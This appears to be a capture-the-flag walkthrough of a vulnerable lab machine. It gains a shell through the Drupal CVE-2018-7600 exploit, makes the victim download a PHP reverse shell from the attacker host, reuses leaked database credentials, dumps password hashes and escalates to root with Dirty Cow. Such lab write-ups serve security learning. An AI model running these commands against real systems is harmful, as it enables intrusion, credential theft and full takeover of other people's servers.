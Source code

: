 # Netdiscover
![[Pasted image 20220505075716.png]]

```text
192.168.1.141
```

# Port scan
```text
22/tcp   open  ssh        syn-ack ttl 64 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open  tcpwrapped syn-ack ttl 64
1898/tcp open  http       syn-ack ttl 64 Apache httpd 2.4.7 ((Ubuntu))

```


# Port 80
![[Pasted image 20220505112416.png]]

# Port 1898

![[Pasted image 20220505112501.png]]

Robots.txt has interesting entry: `Disallow/CHANGELOG.txt`

![[Pasted image 20220505112942.png]]

Found an [exploit for drupal 7 < 7.57] (https://github.com/pimps/CVE-2018-7600)

### RCE via CVE-2018-7600
```bash
./drupa7-CVE-2018-7600.py -c whoami http://lampiano:1898/
```

![[Pasted image 20220505113408.png]]

# Reverse php webshell
copy the binary to your working folder
```bash
cp /usr/share/webshells/php/php-reverse-shell.php .
```
Remove the comments and change IP/port

host file on webserver
```bash
python3 -m http.server 82
```

Download to victim
```bash
./drupa7-CVE-2018-7600.py -c 'wget http://192.168.1.112:88/php-reverse-shell.php' http://lampiano:1898/
```

Activate the shell by visiting the webpage
```
http://lampiano:1898/shell.php
```

Fix the shell
```python3
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
export TERM=xterm
```


# linPEAS findings
![[Pasted image 20220505121649.png]]

![[Pasted image 20220505121707.png]]

![[Pasted image 20220505121911.png]]

Found DB creds in `/var/www/html/sites/default/settings.php`
![[Pasted image 20220505122159.png]]

Get on the SQL db
```bash
mysql -u drupaluser -pVirgulino
```

Dump the users table

```mysql
+-------+---------------------------------------------------------+
| name  | pass                                                    |
+-------+---------------------------------------------------------+
|       |                                                         |
| tiago | $S$DNZ5o1k/NY7SUgtJvjPqNl40kHKwn4yXy2eroEnOAlpmT0TJ9Sx8 |
| Eder  | $S$Dv5orvhi7okjmViImnVPmVgfwJ2U..PNK4E9IT/k7Lqz9GZRb7tY |
| admin | $S$DQRp/JT8KnSM8cFRgzOlKL83DnHt6yxXieQ5hcq3me2bYeiA5p8A |
+-------+---------------------------------------------------------+
```

Tried cracking the hashes to no aval. Drupal 7 hashes take forever to crack, so I had plenty of time to think. PASSWORD REUSE. I should have immediately tried to `su` with the db password.

![[Pasted image 20220505130229.png]]

At this point we can drop the webshell and switch to ssh if desired.

## Linpeas findings

![[Pasted image 20220505131959.png]]

[Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester.git) picked up `Dirty Cow 2` as a possible exploit.

```bash
searchsploit -m 40839
```

Compile & run on victim
```bash
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil && ./dcow -s
```

# Root Flag
![[Pasted image 20220505163611.png]]


# Additional Exploitation methods
Able to break into `tiago` by scraping a detailed post and feeding all the words as a password through ssh. It only takes about 7 seconds to find the correct password this way.
![[Pasted image 20220505160555.png]]

